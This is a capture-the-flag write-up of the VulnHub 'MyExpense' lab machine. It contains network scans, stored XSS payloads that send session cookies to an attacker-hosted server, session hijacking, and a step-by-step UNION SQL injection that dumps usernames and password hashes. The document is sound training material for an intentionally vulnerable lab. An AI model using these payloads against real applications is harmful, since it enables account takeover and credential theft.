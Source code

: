 ````markdown
# máquinas

- **Target Machine - MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)

---

## Scenario

> You are **Samuel Lamotte**, and you’ve just been fired from your company **Furtura Business Informatique**. Unfortunately, due to the abrupt departure, you didn’t have the chance to validate the expense report from your last business trip, totaling €750 — the cost of a round-trip flight with your last client.
> 
> Fearing your former employer might refuse to reimburse you, you decide to hack into the internal application called **"MyExpense"**, used by the company to manage employee expense reports.
> 
> You are currently parked outside the company building, connected to the internal Wi-Fi network (the password hasn’t been changed since your departure). The application is protected by a login form with username and password authentication. You hope your credentials still work.

> Known credentials:  
> `slamotte:fzghn4lw`

> Once the challenge is completed successfully, the flag will appear within the application while logged in as **Samuel**.

---

## 1. Discovery and Initial Enumeration

### Network Discovery and IP Identification

Discovered the machine’s IP: `192.168.56.101`

```bash
arp-scan -I enp0s8 --localnet --ignoredups
````

### Full Port Scan

Once the IP was known, a full port scan was performed:

```bash
nmap -sS -Pn -n -p- --min-rate --open 5000 192.168.56.101 -oG ./nmap/allports
```

![Nmap All Ports](images/Pasted%20image%2020250719171605.png)

Since the challenge context mentions a web application, focus was directed to port 80.

### Service Enumeration

```bash
nmap -sCV -p80 -Pn -n 192.168.56.101 -oN ./nmap/recon
```

![Nmap Recon](images/Pasted%20image%2020250719172052.png)

> The scan revealed valuable insights, such as the presence of an `/admin/` directory. Additionally, it showed the absence of the `HttpOnly` flag, which may leave the application vulnerable to cookie theft.

---

### Accessing Admin Interface

Accessing the directory `http://192.168.56.101/admin/admin.php` revealed a list of active and inactive users. Our user `slamotte` appears as **inactive**.

![Admin Interface](images/Pasted%20image%2020250719172553.png)

---

## 2. Exploitation - Account Creation and Stored XSS

It was found that the **signup button** could be bypassed to create new users even when it appeared disabled.

![Signup Form](images/Pasted%20image%2020250719173049.png)

Upon discovering this, an attempt was made to inject a basic XSS payload into the `firstname` and `lastname` fields. It was successful:

```javascript
<script>alert("XSS")</script>
```

Returning to `http://192.168.56.101/admin/admin.php`, the alert was triggered:

![XSS Triggered](images/Pasted%20image%2020250719173537.png)

---

### Cookie Theft Attempt

Attempted to steal cookies by injecting a malicious script in the form:

```javascript
<script src="http://192.168.56.102/robcookies.js">

	var request = new XMLHttpRequest();
	request.open('GET','http://10.0.2.15/?cookie=' + document.cookie );
	request.send();

</script>
```

> Successfully captured the admin (`rmasson`) cookies. However, session hijacking failed due to a restriction: only **one session per user** is allowed simultaneously.

---

### Forced Admin Action via XSS

The admin user (`rmasson`) actively monitors new user registrations. Knowing this, an XSS payload was crafted to **force the admin to reactivate** the `slamotte` account via a crafted request:

```javascript
<script src="http://192.168.56.102/script.js"></script>
```

The hosted script contained:

```javascript
var domain = " http://192.168.56.101/admin/admin.php?id=11&status=active";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();
```

Started the listener:

```bash
python -m http.server 80
```

![Listener Started](images/Pasted%20image%2020250719180209.png)

---

## 3. Access Recovered and Expense Submitted

Successfully logged into the **slamotte** account. The €750 expense was still pending and was submitted:

![Expense Submitted](images/Pasted%20image%2020250719180743.png)

---

## 4. XSS in Internal Chat & Session Hijacking

The platform includes a chat feature with messages from both the **Manager (Manon Riviere)** and the **Finance Approver**.

![Chat Feature](images/Pasted%20image%2020250719181214.png)

Suspecting the chat might be vulnerable to XSS, the following script was injected:

```javascript
<script src="http://192.268.56.102:4749/robcookies.js"></script>
```

Script content:

```javascript
var request = new XMLHttpRequest();
request.open('GET','http://192.268.56.102:4444/?cookie=' + document.cookie);
request.send();
```

> Cookies from chat users were successfully exfiltrated:

![Cookies Exfiltrated](images/Pasted%20image%2020250719183341.png)

Switched session to the **manager (Manon Riviere)** using the cookie:
`6tqplpcj4n4dl43kig1dipdc32`

![Manager Session](images/Pasted%20image%2020250719183914.png)

With manager access, approved the previously submitted expense:

![Expense Approved](images/Pasted%20image%2020250719184016.png)

---

## 5. SQL Injection - Extracting Credentials

While browsing the **Rennes** section, it was found that the parameter `?id=` was vulnerable to SQL Injection.

Confirmed with:

```http
http://192.168.56.101/site.php?id=2 order by 2 -- -
```

![SQL Order By](images/Pasted%20image%2020250719184415.png)

Extracted the database name using:

```http
http://192.168.56.101/site.php?id=2 union select 1,database()-- -
```

![Database Extracted](images/Pasted%20image%2020250719184739.png)

Listed all tables:

```http
http://192.168.56.101/site.php?id=2 union select 1,table_name from information_schema.tables where table_schema='myexpense'-- -
```

![Tables Listed](images/Pasted%20image%2020250719185243.png)

Targeted the `user` table and listed its columns:

```http
http://192.168.56.101/site.php?id=2 union select 1,column_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -
```

![Columns Listed](images/Pasted%20image%2020250719185605.png)

Finally, dumped usernames and password hashes:

```http
http://192.168.56.101/site.php?id=2 union select 1,group_concat(username,0x3a,password) from user-- -
```

![Hashes Dumped](images/Pasted%20image%2020250719185939.png)

Used **hashes.com** to crack the hashes online.

The relevant user was: `pbaudouin`
Recovered password in plaintext: `HackMe`

![Password Cracked](images/Pasted%20image%2020250719190204.png)

---

## 6. Final Step – Expense Fully Approved

Logged in as `pbaudouin`, found the pending expense and approved it:

![Final Approval](images/Pasted%20image%2020250719190514.png)

Finally, logged back in as `slamotte` to confirm that the €750 reimbursement was approved and completed:

![Challenge Completed](images/Pasted%20image%2020250719190657.png)

> ✅ Challenge successfully completed.

```

---
```
